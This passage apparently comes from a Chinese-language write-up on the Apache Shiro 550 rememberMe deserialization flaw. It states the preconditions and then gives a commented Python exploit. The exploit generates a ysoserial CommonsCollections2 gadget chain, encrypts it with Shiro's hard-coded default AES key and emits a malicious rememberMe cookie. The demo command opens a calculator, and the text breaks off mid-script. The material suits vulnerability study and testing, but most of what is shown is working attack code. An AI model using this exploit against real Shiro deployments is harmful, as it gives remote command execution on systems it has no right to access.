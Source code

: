<img src="img/Shiro 550反序列化漏洞.assets/image-20211124004031046.png" alt="image-20211124004031046" style="zoom:50%;" />

### 漏洞利用

这次漏洞利用要求两点

1. 需要开启Remember Me，这样才能触发到解密的过程
2. 需要知道key，这样能够正确解密，进入反序列化过程

```python
import base64
import uuid
import subprocess
import requests
from Crypto.Cipher import AES

def encode_rememberme(command):
    # 这里使用CommonsCollections2模块
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'CommonsCollections2', command], stdout=subprocess.PIPE)
    # 明文需要按一定长度对齐，叫做块大小BlockSize 这个块大小是 block_size = 16 字节
    BS = AES.block_size
    # 按照加密规则按一定长度对齐,如果不够要要做填充对齐
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    # 泄露的key
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    # AES的CBC加密模式
    mode = AES.MODE_CBC
    # 使用uuid4基于随机数模块生成16字节的 iv向量
    iv = uuid.uuid4().bytes
    # 实例化一个加密方式为上述的对象
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    # 用pad函数去处理yso的命令输出，生成的序列化数据
    file_body = pad(popen.stdout.read())
    # iv 与 （序列化的AES加密后的数据）拼接， 最终输出生成rememberMe参数
    base64_rememberMe_value = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_rememberMe_value


if __name__ == '__main__':
    # cc2的exp
    payload = encode_rememberme('open -a Calculator')
    print("rememberMe={}".format(payload.decode()))
    cookie = {
        "rememberMe": payload.decode()
```